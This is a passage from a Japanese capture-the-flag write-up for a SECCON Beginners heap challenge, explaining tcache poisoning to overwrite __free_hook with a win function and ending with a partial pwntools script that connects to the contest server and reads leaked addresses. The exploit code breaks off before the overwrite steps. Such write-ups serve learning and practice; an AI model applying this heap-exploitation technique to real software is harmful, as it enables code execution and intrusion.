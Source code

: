 `[+] B = 0x7f904c4078e8`から`__free_hook`のアドレスがチャンクとして確保されていることがわかる(もちろんサイズ0x20のtcacheは空っぽになる)。ここまでくれば後はBの確保時に`win`のアドレスを書き込んであげれば`__free_hook`に`win`が入ることになり、次のfreeで`win`が呼ばれる。

ちなみに飛ぶだけではおめでとうと言われるだけでフラグが表示されず、シェルが起動してるっぽいので対話モードに入らないと表示されない

## Code

```python
from pwn import remote, p64, u64


def _select(s, sel, c=b"\n> "):
    s.recvuntil(c)
    s.sendline(sel)


def write_a(s, data=b"junk"):
    _select(s, b"1")
    s.sendline(data)


def malloc_b(s, data=b"junk"):
    _select(s, b"2")
    s.sendline(data)


def free_b(s):
    _select(s, b"3")


def desc_heap(s):
    _select(s, b"4")
    r = s.recvuntil(b"-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-")
    print(r.decode())


# show tcache ("""only""" for 0x20)
def desc_tcache(s):
    _select(s, b"5")
    r = s.recvuntil(b"-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
    print(r.decode())


def hint(s):
    _select(s, b"6")
    r = s.recvuntil(b"1. read(")[:-len(b"1. read(")]
    print(r.decode())


if __name__ == '__main__':
    target = "bh.quals.beginners.seccon.jp"
    port = 9002

    s = remote(target, port)
    s.recvuntil(":\n")
    s.recvline()

    # get addrs
    free_hook_addr = int(s.recvline().strip().split(b" ")[1][2:], 16)
    win_addr = int(s.recvline().strip().split(b" ")[1][2:], 16)

    print(hex(free_hook_addr))
    print(hex(win_addr))

```